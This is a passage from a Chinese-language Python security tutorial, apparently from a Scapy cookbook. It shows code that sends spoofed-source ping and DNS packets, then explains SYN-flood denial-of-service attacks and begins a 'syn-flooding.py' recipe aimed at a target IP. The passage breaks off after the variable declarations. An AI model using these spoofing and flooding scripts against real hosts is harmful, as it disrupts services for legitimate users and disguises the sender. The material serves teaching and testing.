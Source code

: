 6.  现在，使用所需权限运行脚本：

```
sudo python3 ip-spoof-ping.py  
```

7.  现在我们可以尝试发送一个伪造的 DNS 查询。为此，创建另一个函数`dnsQuery()`：

```
def dnsQuery(source, destination, iface):
    pkt =IP(dst=destination,src=source)/UDP()/DNS(rd=1,qd=DNSQR(qname="example.com"))     sr1(pkt)  
```

这将创建以下数据包，并在发送/接收循环中开始发送：

![](../images/00063.jpeg)

8.  然后通过调用以下方法发送 DNS 查询：

```
try: 
    print ("Starting Ping")
    dnsQuery(fake_ip,dns_destination,iface)
except KeyboardInterrupt:
    print("Exiting.. ")
    sys.exit(0)  
```

9.  如果我们可以监控受害者的`tcpdump`，我们可以看到 DNS 响应。

# 同步泛洪

SYN 洪泛是一种 DOS 攻击，使合法用户无法使用该服务。SYN 洪水攻击利用 TCP 协议的*三方握手*，其中客户端发送 TCP SYN 数据包以启动与服务器的连接，服务器使用 TCP SYN-ACK 数据包进行回复。然后，在正常操作中，客户机将发送 ACK 数据包，然后发送数据。这将在`SYN_RECV`状态下保持连接打开。但是，如果客户端没有应答 ACK 数据包，则连接将处于半开放状态。

如果多个攻击者或系统打开了与目标服务器的多个此类半开放连接，则可能会填充服务器的 SYN 缓冲区，并可能阻止其接收更多 SYN 数据包，从而导致**拒绝服务**（**DoS**攻击：

![](../images/00064.jpeg)

我们可以使用 Scapy 生成 synflood 数据包进行测试。

# 怎么做。。。

以下是创建脚本以生成 SYN 洪泛攻击的步骤：

1.  创建一个`syn-flooding.py`文件并在编辑器中打开它。
2.  然后，我们必须导入所需的模块：

```
from scapy.all import *  
```

3.  现在，声明变量：

```
iface = "en0"
destination_ip = '192.168.1.5'  
```
